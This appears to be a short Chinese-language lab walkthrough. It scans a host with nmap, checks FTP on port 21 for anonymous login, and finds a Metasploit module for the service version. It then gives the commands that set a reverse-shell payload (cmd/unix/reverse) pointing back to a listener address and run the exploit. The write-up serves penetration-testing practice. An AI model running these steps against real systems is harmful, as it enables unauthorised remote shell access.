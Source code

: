 # 1
nmap扫描
![](vx_images/350566796493060.png)
测试一下21端口是否存在匿名登录
不行连接不了
查看这个版本是否存在漏洞
![](vx_images/435277180732642.png)
msf上有模块
![](vx_images/522748125080555.png)

```
设置目标地址
set rhost 192.168.111.143
设置载荷
set payload cmd/unix/reverse
设置监听地址
set lhost 192.168.111.128
run
```
![](vx_images/533748662125199.png)
